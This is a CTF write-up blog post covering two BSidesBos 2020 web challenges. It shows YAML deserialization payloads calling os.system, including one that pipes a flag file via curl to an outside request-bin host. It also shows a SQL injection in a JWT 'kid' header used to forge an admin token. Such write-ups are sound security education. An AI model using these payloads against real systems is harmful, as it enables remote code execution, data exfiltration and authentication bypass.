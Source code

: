 ```yaml
---
layout: post
title: BSidesBos CTF writeup - Web
author: Lorentz Vedeler
date: 2020-09-26
tags:   
    - BSidesBos
category: writeup
---
```


I only solved two web challenges in this CTF: skid and Yet Another Micro-story Library. All web challenges had a pretty low number of solves.

## Yet Another Micro-story Library

We have to sign up and then log in to see a page with shared stories. When we do we are greeted with a blog listing. At the bottom there is a button to add our own story to the blog.

![Story time front page][story-time]
![Story time yaml form][story-time-form]

We can try to send some malformed yaml to the page:

``` yml
title: "Title of your story"
synopsis: "This is a brief summary of your story"
plot: 
---and they lived happily ever after.
    The End
keywords:
    - "example" 
    - "fiction" 
```

```
Bad Request

Error parsing yaml: while scanning a simple key
in "<unicode string>", line 4, column 1:
---and they lived happily ever a ...
^
could not find expected ':'
in "<unicode string>", line 6, column 1:
keywords:
^
``` 

Googling the errors didn't really give me any clues to which framework was being used, so I decided to just try a few simple payloads.

My first payload was:

```yml
!!python/object/apply:subprocess.Popen
  - ls
``` 
Giving the error below, at least now we can be pretty sure we're dealing with a python application.

```
Internal Server Error

'Popen' object is not subscriptable
```

I actually spent a lot of trying to get Popen to work, but found a different payload after a while.

``` yml
!!python/object/apply:os.system
  - ls
```
It succeeds, but the data does not appear anywhere. We can easily exfiltrate data though with a request bin though.

```yml
!!python/object/apply:os.system
  - ls | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```

The flag is in the web directory, so we can just issue a new command:
```yml

!!python/object/apply:os.system
  - cat flag.txt | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```


## skid

The challenge is a true script kiddie blog - teaching the fine art of sqlmap and armitage. We notice a cookie has been set:

```
skidtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo
```
The JWT token decodes to the header 

``` json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "skid"
}
```
and the body

``` json
{
  "username": "skid"
}
```

The kid field in the header represents a key identifier. The key identifier is used to let the server know which key has been used to sign the token. This is very useful for instance when the token issuing server rotates keys. This allows for a grace period where tokens that have issued right before the key rotation can still be validated by the server after the key rotation. The key identifier is also useful for simply having many different keys at the same time. 

Anyway, this key identifier can often represent a key in a jwks.json file, a regular file or a key in a database. We can look for a publicly available jwks-file. We try a few different files: 
* jwks.json
* /.well-known/jwks.json
* skid.json
* skid

and a few permutations of those, but no luck. Let's instead try to look for a sql injection. We can just modify our token with for instance the tool on jwt.io. Remember that since the kid field is used to look for the key used for the signature, we do not need to provide a valid signature now. Let's just change the kid to `skid'` and see if we can trigger an error. Change the cookie value in developer tools and refresh the page.

```
Bad Request

(sqlite3.OperationalError) unrecognized token: "'skid''"
[SQL: select * from key where name like 'skid'']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

Nice, the key is stored in a sqlite db and we have a sql injection vulnerability! We can now use a union to choose our own key by effectivly changing the query to

``` sql
select * from key where name like 'a key that does not exist' 
union 
select <our key>
```

But first we need to detect how many fields there are in the table. A few tries gives us the correct number of columns. The final payload for our kid field is `asdbqweqwe' union select 'a','a','a`. As we have replaced all fields of the key with a's we can forge our token in jwt.io setting the secret to `a` and the username field in the body to admin.

![SQL injection in jwt kid field in jwt.io][forging-token]

Updating our cookie with the forged token and refreshing the page reveals our flag.

[story-time]: /assets/imgs/yaml-blog.png "Story time front page"
[story-time-form]: /assets/imgs/yaml-form.png "Story time form"
[forging-token]: /assets/imgs/jwt-with-sqli.png "SQL injection in jwt kid field in jwt.io"